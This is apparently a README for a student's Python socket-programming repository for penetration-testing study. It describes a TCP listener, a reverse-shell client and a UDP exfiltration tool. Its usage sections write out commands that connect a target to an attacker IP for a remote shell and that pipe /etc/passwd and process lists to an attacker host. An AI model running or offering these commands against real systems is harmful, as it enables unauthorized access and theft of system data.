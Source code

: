 # Sockets in Python

This repository contains a collection of Python scripts that utilize the `socket` library for various networking tasks. These scripts were developed as a practical exercise while studying network programming and security concepts, inspired by courses from Solyd. The collection includes enhanced versions of standard examples, modified scripts for specific use cases, and original creations, all designed for educational and penetration testing study purposes.

## Scripts Overview

Here is a breakdown of each script, its purpose, and how to use it.

### 1. `server_tcp.py`

A robust and persistent TCP server designed to listen for and handle multiple client connections sequentially. It's ideal for use as a listener in penetration testing scenarios, logging all received data to a file.

**Features:**
* **Persistent Listener**: Accepts multiple clients without restarting.
* **Multi-Message Handling**: Manages continuous data streams from a single client.
* **Data Logging**: Saves all data received from clients to `server_log.txt`.
* **Graceful Shutdown**: Can be stopped cleanly with `Ctrl+C`.

**Usage:**
Run the server on your machine, and it will listen on `0.0.0.0` at port `4433`.
```bash
python3 server_tcp.py
````

-----

### 2\. `client_tcp.py`

A classic and highly practical TCP reverse shell. This script connects back to a listening server, and redirects the machine's standard input, output, and error streams to the socket, providing the attacker with a remote shell.

**Features:**

  * **Remote Shell**: Provides a remote command-line interface to the target machine.
  * **Cross-Platform**: Automatically selects `/bin/sh` for Linux or `cmd.exe` for Windows.
  * **Stable Connection**: Uses TCP for reliable, stream-based communication.

**Usage:**

1.  On the attacker's machine, start a listener (e.g., netcat or `server_tcp.py`):
    ```bash
    nc -lvnp 4444
    ```
2.  On the target machine, run the script with the attacker's IP and port:
    ```bash
    python3 client_tcp.py <ATTACKER_IP> 4444
    ```

-----

### 3\. `fast_client_tcp.py`

A minimal, "fire-and-forget" TCP client designed for quick connection tests. Its main purpose is to send a single "beacon" to a listener to confirm that a connection from a target machine is possible.

**Features:**

  * **Silent Failure**: If a connection cannot be established, the script exits silently without raising errors on the target machine.
  * **Minimalist**: Hardcoded IP and port for rapid execution without command-line arguments.
  * **Single Beacon**: Connects, sends a single message, and immediately closes the connection.

**Usage:**

1.  Edit the `HOST` and `PORT` variables inside the script.
2.  Start a listener on the attacker's machine.
3.  Run the script on the target machine:
    ```bash
    python3 fast_client_tcp.py
    ```

-----

### 4\. `client_udp.py`

A lean, single-packet UDP client. This script is designed to send one UDP datagram to a target and then exit. It's perfect for sending quick triggers, simple commands, or testing for UDP listeners without the overhead of a TCP connection.

**Features:**

  * **Command-Line Driven**: Target IP, port, and message are all passed as command-line arguments for maximum flexibility.
  * **Fire-and-Forget**: Sends one packet and exits immediately.
  * **Lightweight**: Uses UDP for a fast, connectionless transmission.

**Usage:**

```bash
python3 client_udp.py <TARGET_IP> <PORT> "<YOUR_MESSAGE>"
```

-----

### 5\. `pipe_udp.py`

An efficient data exfiltration tool that reads input from `stdin` and sends it line-by-line over UDP. This is ideal for quickly and covertly sending the output of other commands or the content of files to a remote listener.

**Features:**

  * **Stealthy Exfiltration**: Sends data directly over the network without writing to a temporary file.
  * **Flexible**: Can be piped with any command that produces text output.
  * **Connectionless**: Uses UDP for fast data transfer.

**Usage:**
On the attacker's machine, start a UDP listener to capture the output: `nc -ulvnp <PORT>`

On the target machine, pipe a command's output to the script:

```bash
# Example: Exfiltrate /etc/passwd content
cat /etc/passwd | python3 pipe_udp.py <ATTACKER_IP> <PORT>

# Example: Exfiltrate running processes on Windows
tasklist | python3 pipe_udp.py <ATTACKER_IP> <PORT>
```

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.


by _r3n4n_
